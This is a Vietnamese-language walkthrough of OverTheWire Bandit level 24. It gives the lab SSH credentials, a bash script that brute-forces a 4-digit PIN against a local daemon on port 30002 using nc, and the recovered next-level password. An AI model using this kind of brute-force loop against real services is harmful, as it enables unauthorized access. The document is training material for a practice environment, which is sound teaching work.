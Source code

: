 # 🎯 Bandit Level 24

## 📌 END goal: Tìm key bị giấu
**Describe**: A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time


```
host: bandit.labs.overthewire.org
port: 2220
username: bandit24
password: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

```
---

## ⚙️ Cách thực hiện:
**Payload:**
```bash
ssh -p 2220 bandit24@bandit.labs.overthewire.org
nc localhost 30002
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9999
Ctrl+C
cd /tmp
mkdir lv24
cd /lv24
nano script_lv24.sh

#!/bin/bash
for i in {0000..9999}
do
        echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i" >> input.txt
done
cat input.txt | nc localhost 30002 > output.txt
#Ctrl+O -> Enter -> Ctrl+X

chmod +x script_lv24.sh
./script_lv24.sh
cat output.txt | grep -v "Wrong!"
```

-Ở lab này, ta cần brute-force để tìm ra pincode gồm 4 kí tự để gửi tới port 30002 để tìm ra key đúng.   
-Thử ```nc localhost 30002``` và nhập 1 giá trị bất kỳ xem server sẽ trả về gì:   
```bash
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9999
Wrong! Please enter the correct current password and pincode. Try again.
```

-Ta biết được thông tin nếu nhập sai sẽ có đoạn text: ```Wrong! ...```   

-Giờ viết 1 đoạn shell script brute-force để tìm ra pincode chính xác:
```bash
#!/bin/bash

for i in {0000..9999}
do
        echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i" >> input.txt
done
cat input.txt | nc localhost 30002 > output.txt
```

-Sau khi chạy script, ta sẽ nhận được file output.txt chứa các dòng thông báo của server trả về khi gửi 10000 pincode, giờ chỉ cần lọc dòng không chứa 
thông báo "Wrong!" bằng lệnh: ```cat output.txt | grep -v "Wrong!"```

### Key: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4